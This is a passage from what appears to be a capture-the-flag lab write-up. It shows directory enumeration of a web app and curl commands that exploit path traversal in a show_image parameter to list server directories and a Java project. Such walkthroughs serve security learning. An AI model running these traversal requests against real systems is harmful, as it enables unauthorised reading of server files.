 ```
/upload               (Status: 200) [Size: 1857]
/environment          (Status: 500) [Size: 712]
/error                (Status: 500) [Size: 106]
/release_notes        (Status: 200) [Size: 1086]
```

The release notes shows that the creators added some 'checks' for the upload feature, which obviously failed if LFI can be used:

<figure><img src="../../.gitbook/assets/image (9) (3) (2).png" alt=""><figcaption></figcaption></figure>

We need to find out what kind of framework this is running. Because this uses images, I found out we can read directories like this:

```
$ curl http://10.129.178.113:8080/show_image?img=../../../../../../var/www/               
html
WebApp
```

Going into WebApp, we find more directories:

```
$ curl http://10.129.178.113:8080/show_image?img=../../../../../../var/www/WebApp
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
targe
```
